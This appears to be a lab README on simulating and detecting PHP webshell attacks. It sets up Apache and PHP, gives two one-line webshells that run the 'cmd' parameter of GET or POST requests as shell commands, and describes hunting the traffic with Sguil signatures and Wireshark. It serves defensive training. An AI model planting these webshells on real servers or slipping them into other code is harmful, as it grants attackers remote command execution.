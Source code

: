 # Simulating Webshell Attacks

Webshells are a method of gaining shell access by exploiting web services over HTTP or HTTPS. For an attacker, this is a great avenue for access to a remote server, as web services are designed to be highly available and C2 traffic can blend along with standard website access. When a web server is configured with PHP and allows user uploads, performing a webshell attack can be relatively easy.

## Webserver Configuration

To configure the server, run the following commands to setup Apache and PHP:

```
sudo apt -y update && sudo apt -y install apache2 && sudo apt -y install php
```

Now, populate the web server with the webshell files within `/var/www/html`.

**get_shell.php**
```
<?=`$_GET[cmd]`?>
```

**post_shell.php**
```
<?=`$_POST[cmd]`?>
```

These scripts will pull out the parameter named `cmd` from the HTTP requests and execute it on the command line.

## Simulating an Attack

To interact with these webshells, send HTTP requests with a crafted `cmd` parameter set to the command you want to execute on the command line. For `get_shell.php`, this can be done directly within the request URI in a web browser. Point to the shell, followed by `?cmd=` to pass in a command:

![](images/get_shell.png)

As `post_shell.php` carries the parameters in the POST data, this will need to be loaded in outside of the URI bar. This can be done within cURL or a similar command-line networking utility capable of specifying POST data in an HTTP request:

![](images/post_shell.png)

## Hunting a Webshell Attack

A webshell attack can be hunted by using tools like Sguil that have built-in signatures meant to detect webshell activity. Many of these signatures will look for the string `cmd=` in the request URI where a PHP file is involved, or general shell commands in HTTP requests.

![](images/sguil_results.png)

## Hunting an Attack in Wireshark

Raw packet captures can detect this same activity as well by taking note of HTTP request URIs and HTTP POST data:

![](images/wireshark_results.png)